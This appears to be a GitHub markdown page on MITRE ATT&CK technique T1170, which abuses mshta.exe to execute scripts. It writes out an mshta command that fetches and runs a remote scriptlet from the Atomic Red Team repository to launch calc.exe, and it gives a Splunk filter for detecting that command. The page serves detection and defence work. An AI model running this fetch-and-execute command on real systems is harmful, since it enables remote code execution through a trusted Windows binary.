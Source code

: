 # Mshta -- T1170

## Technique Description

Mshta.exe is a Microsoft Utility that allows for the execution of HTML applications. An attacker can leverage mshta.exe to execute malicious .hta files and execute Javascript or VBScript using the trusted Windows Utility. Red Atomic/Canary provided a proof-of-concept for this ATT&CK Mitre Execution Technique. Here's an example command that leverages using mshta.exe to launch calc.exe

## Assumption

## Execution 

mshta.exe javascript:a=(GetObject('script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1170/mshta.sct')).Exec();close();

![mshta](https://user-images.githubusercontent.com/36422282/55601275-2a38fa00-572e-11e9-838d-f32599684b26.PNG)


## Detection
![mshta](https://user-images.githubusercontent.com/36422282/55601319-5d7b8900-572e-11e9-9d96-5d4aefac4bc8.png)

## Visibility

## Splunk Filter

NOTE: This filter is specific and relates to the specific attack technique itself.

host="DESKTOP-EHTEINI" ParentCommandLine="mshta.exe  javascript:a=(GetObject('script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1170/mshta.sct')).Exec();close();"





